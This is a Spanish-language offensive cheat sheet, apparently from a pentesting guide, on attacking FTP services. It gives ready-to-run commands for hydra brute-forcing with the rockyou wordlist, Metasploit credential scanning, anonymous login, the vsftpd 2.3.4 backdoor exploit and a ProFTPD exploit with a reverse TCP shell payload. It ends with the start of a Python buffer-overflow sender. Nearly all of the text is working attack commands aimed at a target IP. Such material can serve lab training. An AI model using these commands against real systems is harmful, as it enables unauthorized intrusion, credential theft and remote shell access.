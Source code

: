 ## 📁 Explotación de Servicios FTP

### 1. Ataques Básicos FTP

```bash
# Fuerza bruta
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100

# Con Metasploit
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.100
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run

# Anonymous FTP
ftp 192.168.1.100
# Username: anonymous
# Password: (vacío o email)
```

### 2. Vulnerabilidades FTP Comunes

```bash
# vsftpd 2.3.4 backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
exploit

# ProFTPD vulnerabilities
search proftpd
use exploit/linux/ftp/proftp_sreplace
set RHOSTS 192.168.1.100
set payload linux/x86/shell_reverse_tcp
exploit
```

## 🚀 Técnicas Avanzadas de Explotación

### 1. Buffer Overflow Básico

```python
#!/usr/bin/env python3
# basic_bof.py - Buffer overflow básico

import socket
import sys

def exploit_bof(target, port):
    """Explotación básica de buffer overflow"""
    
    # Crear patrón para encontrar offset
    pattern = b"A" * 100 + b"B" * 4 + b"C" * 100
    
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.send(pattern)
        s.close()
        print("[+] Payload enviado")
    except Exception as e:
        print(f"[-] Error: {e}")

```